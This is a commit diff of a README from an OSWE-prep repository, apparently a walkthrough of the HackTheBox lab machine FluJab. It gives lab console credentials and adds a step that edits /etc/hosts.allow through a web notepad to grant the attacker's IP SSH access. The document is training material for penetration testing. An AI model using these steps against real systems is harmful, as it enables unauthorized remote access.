

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: FluJab/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/FluJab/README.md
+++ b/FluJab/README.md
@@ -122,3 +122,15 @@ soliman@Legion:~$
 ```
 ### Authentication Bypass
 Login to https://sysadmin-console-01.flujab.htb:8080/view/login/normal using `sysadm`:`th3doct0r`
+
+### RCE
+After we logged-in successfully, we navigate to [Notepad](https://sysadmin-console-01.flujab.htb:8080/view/notepad) and click `Open` so we can allow our IP address to SSH to the machine by openning `/etc/hosts.allow` and add new couple of lines `sshd: <ATTACKER's IP ADDRESS>\nALL: 10.10.16.6` then click `Save`:
+```
+# grant ssh access per host
+# syntax:
+# sshd : [host ip]
+###########################
+
+sshd: 10.10.16.6
+ALL: 10.10.16.6
+```
````
